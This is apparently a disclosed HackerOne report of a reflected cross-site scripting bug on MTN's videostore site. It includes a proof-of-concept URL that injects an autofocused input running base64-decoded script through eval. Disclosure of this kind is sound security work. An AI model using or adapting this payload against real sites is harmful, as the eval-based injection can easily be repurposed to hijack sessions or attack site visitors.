 # XSS at videostore.mtnonline.com/GL/*.aspx via all parameters

## Report Details
- **Report ID**: 1244731
- **URL**: https://hackerone.com/reports/1244731
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-26T00:02:26.096Z
- **Disclosed**: 2022-05-01T21:20:58.456Z

## Reporter
- **Username**: homosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
PoC
```
https://videostore.mtnonline.com/GL/MyAccount.aspx?PId=126&CID=5&OprId=11%27><input%20onfocus=eval(atob(%27YWxlcnQoJ1hTUycp%27))%20autofocus>
```

Symbols <"/'> are not filtered that alloweds to inject HTML code.
{F1353609}

## Impact

XSS at videostore.mtnonline.com

## Attachments
- mtn.xss.3.png
